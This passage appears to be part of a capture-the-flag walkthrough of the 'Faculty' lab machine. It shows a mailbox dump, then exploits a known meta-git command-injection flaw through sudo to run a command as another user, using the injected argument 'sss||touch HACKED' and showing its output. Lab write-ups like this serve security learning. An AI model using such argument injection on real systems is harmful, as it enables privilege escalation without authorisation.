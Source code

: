 mailbox content


```bash
gbyolo@faculty:/var/mail$ cat gbyolo 
From developer@faculty.htb  Tue Nov 10 15:03:02 2020
Return-Path: <developer@faculty.htb>
X-Original-To: gbyolo@faculty.htb
Delivered-To: gbyolo@faculty.htb
Received: by faculty.htb (Postfix, from userid 1001)
	id 0399E26125A; Tue, 10 Nov 2020 15:03:02 +0100 (CET)
Subject: Faculty group
To: <gbyolo@faculty.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20201110140302.0399E26125A@faculty.htb>
Date: Tue, 10 Nov 2020 15:03:02 +0100 (CET)
From: developer@faculty.htb
X-IMAPbase: 1605016995 2
Status: O
X-UID: 1

Hi gbyolo, you can now manage git repositories belonging to the faculty group. Please check and if you have troubles just let me know!\ndeveloper@faculty.htb
```

Looking for meta-git vulnerability:

[https://hackerone.com/reports/728040](https://hackerone.com/reports/728040)

according to the sudoer file, we can run meta-git as user developer, let's try to use this method to create a file:
```bash
gbyolo@faculty:/dev/shm$ sudo -u developer /usr/local/bin/meta-git clone 'sss||touch HACKED'
meta git cloning into 'sss||touch HACKED' at sss||touch HACKED

sss||touch HACKED:
fatal: repository 'sss' does not exist
sss||touch HACKED ✓
(node:70766) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/sss||touch HACKED'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:70766) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:70766) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.
gbyolo@faculty:/dev/shm$ ls -al
total 0
drwxrwxrwt  3 root      root       100 Jul  5 08:06 .
drwxr-xr-x 18 root      root      3960 Jul  3 21:01 ..
-rw-rw-r--  1 developer developer    0 Jul  5 08:06 HACKED
drwx------  4 root      root        80 Jul  3 21:01 multipath
-rw-rw-r--  1 developer developer    0 Jul  5 08:06 sss

```
